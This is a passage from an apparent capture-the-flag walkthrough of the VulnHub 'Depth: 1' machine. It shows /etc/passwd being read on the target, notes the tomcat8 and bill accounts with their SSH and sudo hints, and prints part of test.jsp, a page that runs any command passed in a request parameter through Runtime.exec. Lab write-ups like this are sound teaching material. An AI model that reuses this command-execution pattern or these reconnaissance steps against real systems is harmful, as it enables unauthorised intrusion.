 This is how `/etc/passwd` looks like—`tomcat8` and `bill`.

```
# ./cat.sh /etc/passwd
...
tomcat8:x:112:115::/usr/share/tomcat8:/bin/false
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
```

This is how their respective home directories look like.

![screenshot-5](/assets/images/posts/depth-1-walkthrough/screenshot-5.png)

Notice that `tomcat8` has a `.ssh` directory?

![screenshot-4](/assets/images/posts/depth-1-walkthrough/screenshot-4.png)

Notice that `bill` can `sudo` as `root`?

This is how `test.jsp` looks like.

```
<%@ page import="java.util.*,java.io.*,java.util.regex.*"%>
...
<%
    if (request.getParameter("path") != null) {
        String delims = "[ ]+";
        out.println("Command: " + request.getParameter("path") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("path"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        out.println("<table border='1'><tr><th>Owner</th><th>Group</th><th>Size</th><th>Filename</th></tr>");

        String disr = dis.readLine();
        while ( disr != null ) {
            String[] tokens = disr.split(delims);

            if (tokens.length > 8) {
                out.println("<tr>");
```

[1]: https://www.vulnhub.com/entry/depth-1,213/
[2]: https://twitter.com/@fang0654
[3]: https://www.vulnhub.com